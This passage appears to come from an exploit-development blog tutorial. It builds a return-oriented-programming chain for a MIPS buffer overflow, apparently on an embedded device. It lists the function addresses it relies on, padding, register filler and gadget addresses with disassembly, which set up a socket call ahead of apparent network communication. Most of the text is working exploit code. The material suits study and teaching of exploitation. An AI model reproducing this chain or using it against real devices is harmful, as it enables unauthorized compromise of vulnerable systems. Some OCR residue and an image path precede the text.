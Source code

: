 ```

// send message to server
sendto(sockfd, message, strlen(message), 0, (struct sockaddr *)&server_addr, sizeof(server_addr));
```

## Chain Breakdown

We begin the chain by creating a payload that will trigger the overflow, we can use the offsets we found in the previous blog to work out what registers will be filled - we don't care about what is in them right now, so we can just fill them with **0xdeadbeef**. *p32* just packs the addresses correctly so they go into the registers as we would expect.

```
-python
# Function address
sendto_addr = 0x80128bc4
socket_addr = 0x801293d0
sleep_addr = 0x8019abac
connect_addr = 0x80129028
strlen_addr = 0x801a717c

# Padding
chain = b'a'*132

# Add the strings to the sX registers, and set the ra to first gadget
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0x11e670 + base_address) # ra
```

### socket

**int socket(int domain, int type, int protocol);**

The *socket* function takes 3 arguments - *domain*, *type*, and *protocol*. We want *domain* to be *AF_INET* which corresponds to a value of 2. Then we want type to be *SOCK_DGRAM*, which is also 2. The final argument is then 0 as we want the OS to determine the protocol based on the *domain* and *type* values we provided. The code below adds gadgets that set these values:

```
-python
## Set first argument for socket to 2
# 0x0011e670: addiu $a0, $zero, 2; lw $ra, 4($sp); move $v0, $zero; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b'*4
chain += p32(0x172e0c + base_address) # ra

## Set second argument for socket to 2 
# Set a1 to be 0
# 0x00172e0c: move $a1, $zero; lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x115428 + base_address)

# Add 2 to a1
# 0x00115428: addiu $a1, $a1, 2; lw $ra, 4($sp); move $v0, $s0; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += p32(0xdeadbeef) # s0
chain += p32(0x6d42c + base_address)

## Set third argument for socket to 0
# 0x0006d42c: move $a2, $zero; lw $ra, 4($sp); addiu $v0, $zero, 1; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x57864 + base_address) # ra
```